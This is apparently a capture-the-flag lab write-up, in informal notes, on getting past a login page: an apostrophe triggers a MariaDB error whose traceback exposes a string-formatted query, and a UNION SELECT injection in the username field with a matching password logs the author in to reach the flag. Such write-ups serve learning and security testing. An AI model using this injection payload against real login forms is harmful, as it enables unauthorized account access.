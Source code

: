 # Flag 0

- Has a log in page, tried wit admin:password >"unknown user"
- view source to see that "unknown user" is going to be printed regardless, meaning that database can be injected
- Tried putting an aspotrophe after "admin" > "admin'"
- the page returns an SQL error :
  `
  Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
  `
  
  - can bypass password by putting an SQL injection.
  username = 
  `
  ' UNION SELECT '000' AS password#
  `
  password =
  
  `000`
  
  - logged in!
  
 > private page > found flag 0
 

